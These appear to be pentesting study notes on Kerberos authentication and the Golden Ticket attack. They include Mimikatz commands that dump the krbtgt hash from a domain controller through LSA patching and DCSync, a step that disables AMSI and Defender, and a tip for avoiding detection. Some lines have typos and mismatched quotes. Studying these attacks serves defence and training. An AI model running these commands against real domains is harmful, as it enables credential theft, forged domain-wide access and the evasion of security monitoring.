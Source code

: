 1. Password converted to NTLM hash. A Timestamp is encrypted and signed with the NTLM hash of the Users Password and sent to the KDC (AS-REQ)
2. The TGT (Ticket granting ticket) is generated and encrypted & signed with the NTLM Hash of krbtgt hash
3. The TGT is sent back to DC, because client can not decrypt it. Client Request a TGS (Ticket granting service). \
   The DC assumes whatever is inside the TGT, as long as it can be decrypted with krbtgt, it is assumed to be valid.\
   ❓Up to 20 Minutes the TGT is valid?
4. The TGS is returned with encryption of the target service/application service's NTLM hash
5. The Applicatoin Server decrypts the TGS because it is with its own service NTLM hash encrypted, and then decides whether user can access

## 🥇🎫Golden Ticket Attack

### Description

* Abuse is in Step 3 and 4, where a valid TGT is generated&#x20;
* A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket
* Since user account validation is not done by DC until TGT is older than 20min, we use even deleted/revoked accounts
* The krbtgt user hash could be used to impersonate any user with any privilege from even a non-domain machine
* Password change (of krbtgt account)has no effect on this attack because previous hash will also be accpeted - you have to change the pw of krbtgt twice

{% hint style="info" %}
Always create Kerberos Tickets within the parameters of the Kerberos Domain Policy - less detection

PowerView: (Get-DomainPolicy)."Kerberos Policy"
{% endhint %}

### Requirements

* krbtgt Hash has to be known

### Tools

**Execute Mimikatz on DC to get krbtgt hash - required DA privs**\
Invoke-Mimikatz -command '"lsadump:lsa /patch" -computername dc-hostname

&#x20;With powershell session on dc:\
$sess = New-Session -Computername dc.local\
Disable AMSI/Defender in that session\
Exit\
Invoke-command -session $ses -filepath C:\invoke-mimikatz.ps1\
Enter-Pssession  -session $sess\
Invoke-Mimikatz -command '"lsadump:lsa /patch\


**To use the DCSync feature for getting krbtgt hash, execute the following command - require DA privs:**\
Invoke-Mimikatz -command '"lsadump:dcsync /user:dom\krbtgt"'
